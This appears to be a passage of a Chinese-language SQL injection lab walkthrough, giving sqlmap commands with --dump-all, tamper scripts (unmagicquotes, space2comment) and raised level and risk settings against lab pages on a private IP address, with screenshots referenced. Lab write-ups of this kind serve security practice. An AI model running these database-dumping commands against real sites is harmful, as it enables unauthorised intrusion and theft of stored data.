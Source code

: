 

## MySQL updatexml SQLi

```
python sqlmap.py -u http://192.168.126.138/sqli/05.php?id=1 --dump-all
```

![image-20250904191842125](images/image-20250904191842125.png)



# MYSQL 宽字节SQLi

和第二题一样，不解释

```
python sqlmap.py -u "http://192.168.126.138/sqli/06.php?id=1" --dump-all --batch --tamper=unmagicquotes --level=5 --risk=3
```





# 空格过滤

```
python sqlmap.py -u "http://192.168.126.138/sqli/07.php?id=1" --dump-all --tamper=space2comment
```
